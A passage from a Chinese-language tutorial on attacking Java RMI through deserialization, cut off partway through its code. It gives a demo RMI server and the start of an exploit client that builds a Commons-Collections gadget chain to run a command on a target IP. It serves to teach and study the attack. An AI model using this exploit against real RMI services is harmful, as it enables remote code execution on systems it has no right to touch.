 ### 0x01 前言

上一章介绍了rmi的基本概念，以及浅显的提了一下rmi的利用点。这一章将结合具体的代码与实践来讲解攻击rmi的方式。

### 0x02 利用反序列化攻击RMI

这也是我们在上文中提到的攻击方式，这个攻击有两个前提：

1. rmi服务端提供了接收Object类型参数的远程方法
2. rmi服务器的lib或着说classpath中有存在pop利用链的jar包，例如3.1版本的commons-collections.jar

我们直接来看一个案例(RMI server还是用的上一章的那个demo)：

Server端：

```java
package server;

import model.Hello;
import model.impl.Helloimpl;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException{
        // 创建对象
        Hello hello = new Helloimpl();
        // 创建注册表
        Registry registry = LocateRegistry.createRegistry(1099);
        // 绑定对象到注册表，并给他取名为hello
        registry.rebind("hello", hello);
    }
}
```

现在，我们需要构造一个恶意的客户端，向服务端发送一个恶意的序列化对象，如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class RMIExploit {

    public static void main(String[] args) throws Exception {

        // 远程RMI Server的地址
        String ip = "192.168.201.24";
        int port = 1099;
        // 要执行的命令
        String command = "gnome-calculator";

```